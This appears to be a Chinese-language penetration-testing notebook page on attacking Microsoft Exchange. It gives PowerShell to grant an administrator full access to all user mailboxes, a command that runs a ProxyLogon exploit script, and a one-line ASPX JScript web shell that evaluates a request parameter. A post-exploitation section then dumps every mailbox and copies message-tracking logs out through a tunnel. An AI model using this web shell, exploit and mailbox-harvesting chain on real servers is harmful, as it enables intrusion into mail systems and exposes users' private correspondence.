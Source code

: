> Get-Mailbox -ResultSize unlimited -Filter {(RecipientTypeDetails -eq 'UserMailbox') -and (Alias -ne 'Administrator')} | Add-MailboxPermission -User administrator -AccessRights fullaccess -InheritanceType all

![](https://cdn.nlark.com/yuque/0/2023/png/21953116/1689582245067-f3c4d701-bd04-4d9f-afad-a37383dc4420.png)

取消fullaccess权限

> Get-Mailbox -ResultSize unlimited -Filter {(RecipientTypeDetails -eq 'UserMailbox') -and (Alias -ne 'Administrator')} | remove-MailboxPermission -User administrator -AccessRights fullaccess -InheritanceType all

验证fullaccess权限

![](https://cdn.nlark.com/yuque/0/2023/png/21953116/1689582358693-fbbee2f5-524c-44e8-9c07-dbd2e3b03e90.png)

### 漏洞攻击

> python ProxyLogon.py --host=exchange.com --mail=admin@exchange.com

aspx木马：  
`<script language="JScript" runat="server"> function Page\_Load(){/\*\*/eval(Request\["command"\],"unsafe");}</script>`

### 后渗透阶段

#### exchange服务器信息收集

获取到exchange默认安装路径

> echo %ExchangeInstallPath%

![](https://cdn.nlark.com/yuque/0/2023/png/21953116/1689498808673-cd1d3f7e-c6c3-45da-a9d9-86566990ec95.png)

控制台文件的相对位置是%ExchangeInstallPath%\\Bin\\exshell.ps1

获取所有邮箱信息

> powershell.exe -psconsolefile "C:\\Program Files\\Microsoft\\Exchange Server\\V15\\bin\\exshell.psc1" -command "get-mailbox -resultsize unlimited"

![](https://cdn.nlark.com/yuque/0/2023/png/21953116/1689499161295-260ae566-d6bc-4f98-9dab-0c17a164e55a.png)

#### 分析邮件跟踪日志

> 邮件跟踪日志位于%ExchangeInstallPath%\\TransportRoles\\Logs\\MessageTracking

![](https://cdn.nlark.com/yuque/0/2023/png/21953116/1689500093240-d954cad5-2ef1-483d-bcc1-55e68ac0ffb6.png)

在配置了代理隧道的情况下可以通过copy命令将日志复制到本地。

通过脚本log\_analysis.py可以提取关键信息进行分析。

```php
import csv
import os
import sys
def analysis(path):
    for i in os.listdir(path):
        print(i)
        csvfile = []
        for i in open(path+"/" + i, encoding='utf-8'):
            if '#Software: Microsoft Exchange Server' in i: continue
            if i[:1] == '#':
                if i[:9] == '#Fields: ':
                    i = i.replace('#Fields: ', '')
                else:
                    continue
            csvfile.append(i)
```